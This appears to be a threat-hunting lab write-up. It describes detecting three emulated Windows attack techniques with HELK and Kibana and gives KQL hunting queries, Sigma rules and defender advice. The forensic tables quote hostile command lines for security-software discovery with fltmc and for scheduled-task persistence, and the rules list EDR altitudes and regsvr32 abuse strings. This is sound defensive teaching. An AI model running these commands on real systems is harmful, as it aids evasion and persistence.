

#### Key Forensic Evidence

| Field | Value |
| :--- | :--- |
| `event.type` | `process_creation` |
| `process.name` | `fltmc.exe` |
| `process.args` | `findstr.exe 385201` |
| `process.command_line` | `fltmc.exe \| findstr.exe 385201` |
| **Significance** | Altitude 385201 = Sysmon driver signature |
| **MITRE Technique** | **T1518.001 — Security Software Discovery** |

> 🔍 **Analyst Note:** The combination of `fltmc.exe` with filter altitude `385201` is a **high-fidelity IOC** for Sysmon reconnaissance. This command should be treated as a **Tier 1 alert** — any process querying filter driver altitudes is likely performing security tool enumeration.

---

### 🟢 Detection 3: T1053.005 — Scheduled Task

**Hunt query:** Search for `scheduled` in Kibana Discover.



**Expand the event and inspect the command:**



#### Key Forensic Evidence

| Field | Value |
| :--- | :--- |
| `event.type` | `process_creation` |
| `process.name` | `schtasks.exe` |
| `process.command_line` | `SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10` |
| `task.name` | `spawn` |
| `task.trigger` | `ONCE` at `20:10` |
| `task.action` | `C:\windows\system32\cmd.exe` |
| **MITRE Technique** | **T1053.005 — Scheduled Task/Job** |

> 🔍 **Analyst Note:** The task name `spawn` and the one-time trigger schedule are indicators of **adversary persistence testing**. In a real engagement, the task would execute a C2 beacon or reverse shell, ensuring re-access after reboots.

---

### 🏆 Detection Summary



| Attack | MITRE Technique | Detection Method | Kibana Query | Detected |
| :--- | :--- | :--- | :--- | :---: |
| Regsvr32 Proxy Exec | T1218.010-1 | Process creation + payload field | `Invoke-Process` | ✅ |
| Sysmon Discovery | T1518.001-5 | Process creation + fltmc args | `sysmon` | ✅ |
| Scheduled Task | T1053.005-2 | Process creation + schtasks args | `scheduled` / `spawn` | ✅ |

**🎯 Score: 3/3 Attacks Detected — Lab Complete!**

---

## 7. MITRE ATT&CK Analysis

### Attack Kill Chain



### Technique Deep Dive

#### T1218.010 — Signed Binary Proxy Execution: Regsvr32

| Attribute | Detail |
| :--- | :--- |
| **Tactic** | Defense Evasion, Execution |
| **Platforms** | Windows |
| **Permissions Required** | User |
| **Data Sources** | Process creation, Network traffic |
| **Detection** | Monitor `regsvr32.exe` with `/i:` or `/u` flags, especially with remote URLs |
| **Bypass Method** | `regsvr32.exe` is allow-listed by many AppLocker policies |
| **Real-World Use** | APT3, APT32, Cobalt Group, FIN7, Lazarus Group |

**Hunting Rule:**
```kql
# Kibana KQL
process.name: "regsvr32.exe" AND process.args: "/i:" AND process.args: ("http://" OR "https://")
```

#### T1518.001 — Security Software Discovery

| Attribute | Detail |
| :--- | :--- |
| **Tactic** | Discovery |
| **Platforms** | Windows, macOS, Linux |
| **Permissions Required** | User |
| **Data Sources** | Process creation, OS API |
| **Detection** | Alert on `fltmc.exe` with `findstr` + altitude numbers |
| **Why Altitude 385201?** | Microsoft registers unique altitudes for filter drivers — 385201 is Sysmon's |
| **Real-World Use** | Many APT groups perform this before payload deployment |

**Hunting Rule:**
```kql
# Kibana KQL
process.name: "fltmc.exe" AND process.args: ("385201" OR "385200")
```

#### T1053.005 — Scheduled Task/Job

| Attribute | Detail |
| :--- | :--- |
| **Tactic** | Execution, Persistence, Privilege Escalation |
| **Platforms** | Windows |
| **Permissions Required** | Administrator, SYSTEM |
| **Data Sources** | Process creation, File creation, Windows Registry |
| **Detection** | Monitor `schtasks.exe /Create` or `at.exe` with suspicious task actions |
| **Key IOC** | Unusual task names, SYSTEM-level actions, one-time triggers |
| **Real-World Use** | APT1, APT29, APT32, Cobalt Strike, Empire C2 |

**Hunting Rule:**
```kql
# Kibana KQL
process.name: "schtasks.exe" AND process.args: "/Create" AND 
NOT process.args: ("MicrosoftEdge" OR "Adobe" OR "Windows Defender")
```

---

## 8. Sigma Detection Rules

### Rule 1: Regsvr32 Remote Scriptlet Execution

```yaml
title: Regsvr32 Remote Scriptlet Proxy Execution
id: b64d6a9a-4e5d-4a91-b02d-9f6e1b5e1234
status: stable
description: |
  Detects execution of regsvr32.exe with remote HTTP/HTTPS scriptlet arguments,
  a common LOLBAS technique to bypass AppLocker and execute arbitrary code.
references:
  - https://attack.mitre.org/techniques/T1218/010/
  - https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/
author: HELK Lab
date: 2024/01/01
tags:
  - attack.defense_evasion
  - attack.execution
  - attack.t1218.010
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\regsvr32.exe'
    CommandLine|contains:
      - '/i:http'
      - '/i:https'
      - 'scrobj.dll'
  condition: selection
falsepositives:
  - Legitimate COM component registration (rare with remote URLs)
level: high
```

### Rule 2: Sysmon Discovery via Filter Altitude

```yaml
title: Security Software Discovery via fltmc Altitude Enumeration
id: c13d7a2b-9e4f-4c01-b891-2e5c7f8e5678
status: stable
description: |
  Detects use of fltmc.exe piped with findstr to discover installed filter drivers
  by altitude number, commonly used to identify Sysmon and EDR products.
references:
  - https://attack.mitre.org/techniques/T1518/001/
  - https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/load-order-groups-and-altitudes-for-minifilter-drivers
author: HELK Lab
date: 2024/01/01
tags:
  - attack.discovery
  - attack.t1518.001
logsource:
  category: process_creation
  product: windows
detection:
  selection_fltmc:
    Image|endswith: '\fltmc.exe'
  selection_findstr_altitude:
    CommandLine|contains:
      - '385201'  # Sysmon altitude
      - '385200'  # Sysmon altitude variant
      - '328000'  # Carbon Black altitude
  condition: selection_fltmc and selection_findstr_altitude
falsepositives:
  - Security tooling performing self-checks (rare)
level: high
```

### Rule 3: Suspicious Scheduled Task Creation

```yaml
title: Suspicious Scheduled Task Created via schtasks.exe
id: d47e8b3c-1a5g-4d12-c902-3f6d8g9f6789
status: stable
description: |
  Detects creation of scheduled tasks via schtasks.exe with one-time triggers
  or command shell actions, commonly used for adversary persistence.
references:
  - https://attack.mitre.org/techniques/T1053/005/
author: HELK Lab
date: 2024/01/01
tags:
  - attack.persistence
  - attack.execution
  - attack.privilege_escalation
  - attack.t1053.005
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\schtasks.exe'
    CommandLine|contains: '/Create'
  suspicious_actions:
    CommandLine|contains:
      - 'cmd.exe'
      - 'powershell.exe'
      - 'mshta.exe'
      - 'wscript.exe'
      - 'cscript.exe'
  exclude_legitimate:
    CommandLine|contains:
      - 'MicrosoftEdge'
      - 'Windows Defender'
      - 'Adobe'
      - 'GoogleUpdate'
  condition: selection and suspicious_actions and not exclude_legitimate
falsepositives:
  - System administrators creating legitimate maintenance tasks
  - Software installers
level: medium
```

---

## 9. Key Findings & Forensic Notes

### Investigation Summary

| Finding | Details | Severity |
| :--- | :--- | :---: |
| **Regsvr32 LOLBAS** | Signed binary abused to proxy-execute remote scriptlet via HTTP | 🔴 High |
| **EDR Reconnaissance** | Attacker mapped Sysmon filter altitude — pre-evasion step | 🟠 Medium-High |
| **Persistence Established** | Scheduled task `spawn` → `cmd.exe` at 20:10 | 🔴 High |
| **Full Payload Visibility** | HELK/Sysmon captured complete scriptlet content in `payload` field | ✅ Excellent |
| **Pipeline Integrity** | All 3 events streamed successfully via Winlogbeat → Kafka → ES | ✅ Working |

### Lessons Learned: Why HELK Beats Standard ELK

| Feature | Standard ELK | HELK |
| :--- | :---: | :---: |
| Kafka message streaming | ❌ | ✅ |
| Pre-built threat hunting dashboards | ❌ | ✅ |
| Jupyter notebook analytics | ❌ | ✅ |
| Apache Spark integration | ❌ | ✅ |
| MITRE ATT&CK enrichment | ❌ | ✅ |
| Winlogbeat Sysmon schema | Basic | Enhanced |

### Defender Recommendations

1. **Block regsvr32 with remote URLs** via Windows Defender Application Control (WDAC) or AppLocker rules excluding `/i:http*`
2. **Alert on fltmc+altitude queries** — any process searching for specific filter driver altitudes (especially 385201) is doing EDR reconnaissance
3. **Audit scheduled tasks** — baseline all tasks on endpoints; alert on new tasks with `cmd.exe`, `powershell.exe`, or network-fetching payloads as actions
4. **Deploy Sysmon universally** — without Sysmon, none of the `payload` field data would be available; standard Windows EventID 4688 only captures process names, not arguments or payloads
5. **HELK deployment** — for threat hunting teams, HELK provides critical Kafka buffering so no events are lost during high-volume attack simulations

---

<div align="center">

**🎯 Lab Status: 100% Complete — All 3 ATT&CK Techniques Emulated & Detected**

*HELK Platform • Atomic Red Team • Kibana Discover • MITRE ATT&CK Mapped*

</div>
